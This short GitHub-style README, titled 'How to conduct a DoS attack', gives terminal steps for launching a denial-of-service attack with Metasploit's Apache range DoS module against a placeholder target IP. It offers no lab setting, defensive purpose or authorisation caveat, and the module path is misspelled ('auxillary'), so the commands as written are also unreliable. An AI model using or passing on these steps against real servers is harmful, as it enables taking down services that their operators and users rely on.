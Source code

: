 # How to conduct a DoS attack
Use Metasploit Framework Console (msfconsole)

# Using msfconsole
- Open the terminal (Ctrl+Alt+T)
- Run ```msfconsole```
- Execute the following commands
```bash
use auxillary/dos/http/apache_range_dos
set RHOST {TARGET IP}
run
```
